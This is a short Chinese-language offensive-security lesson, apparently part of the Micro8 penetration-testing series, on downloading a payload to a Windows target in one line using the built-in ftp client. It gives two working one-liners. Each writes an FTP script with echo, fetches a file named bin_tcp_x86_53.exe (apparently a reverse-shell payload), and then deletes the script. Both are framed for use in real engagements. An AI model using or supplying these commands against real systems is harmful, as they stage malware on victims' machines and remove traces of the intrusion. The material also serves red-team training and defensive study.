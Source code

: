 ```yaml
---
title: 70、ftp一句话下载payload补充
date: 2019-09-21 19:06:12
comments: true
categories: 
 - Micro8系列
---
```



**windows 全平台自带ftp，在实战中需要考虑两点。**  
* 数据传输的完整性。  
* 代码得精简

本季作为第四十课的补充，一句话下载更为精简。更符合于实战。

**靶机：**  
192.168.1.119  

**demo下载文件为：**  
bin_tcp_x86_53.exe  
![](../do/media/a0c59424cccd7240a929a043c65a10d1.jpg)

```code
echo open 127.0.0.1 > o&echo user 123 123 >> o &echo get bin_tcp_x86_53.exe >> o &echo quit >> o &ftp ‐n ‐s:o &del /F /Q o
```

![](../do/media/3f470da4395e76cac4553c1c7081a718.jpg)



缩短一句话下载：
```code
echo open 127.0.0.1 > o&echo get bin_tcp_x86_53.exe >> o &echo quit >> o &ftp ‐A ‐n ‐s:o &del /F /Q o
```
![](../do/media/b4b18ed037915cf463987e9a1bd3ba9c.jpg)

![](../do/media/bf3ffa7da2f7737d7b8f4be920d3b143.jpg)

>   Micropoor
